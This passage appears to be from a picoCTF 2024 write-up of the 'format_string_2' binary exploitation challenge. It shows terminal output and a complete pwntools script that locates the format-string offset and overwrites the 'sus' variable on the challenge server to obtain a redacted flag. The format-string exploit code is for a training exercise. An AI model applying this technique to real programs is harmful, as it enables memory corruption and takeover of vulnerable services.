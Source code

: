 When running the script we get the flag
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_2]
└─$ ~/python_venvs/pwntools/bin/python get_flag.py
[+] Opening connection to rhea.picoctf.net on port 57654: Done
[+] Receiving all data: Done (110B)
[*] Closed connection to rhea.picoctf.net port 57654
I have NO clue how you did that, you must be a wizard. Here you go...
picoCTF{<REDACTED>}
```

### Get the flag - automated solution

We can also automate the entire process with [pwntools format string tools](https://docs.pwntools.com/en/stable/fmtstr.html)
```python
#!/usr/bin/python

from pwn import *

SERVER = 'rhea.picoctf.net'
PORT = 57654

exe = context.binary = ELF('./vuln', checksec=False)

target = exe.symbols.sus
goal_value = 0x67616c66

# Set output level (critical, error, warning, info, debug)
context.log_level = "warning"

def exec_fmt(payload):
    p = remote(SERVER, PORT)
    p.sendline(payload)
    return p.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

payload = fmtstr_payload(offset, {target: goal_value})

io = remote(SERVER, PORT)    
io.sendlineafter(b'What do you have to say?\n', payload)
io.recvline()
print(io.recvallS())
io.close()
```

Then we just run the script to get the flag
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_2]
└─$ ~/python_venvs/pwntools/bin/python get_flag2.py
I have NO clue how you did that, you must be a wizard. Here you go...
picoCTF{<REDACTED>}
```
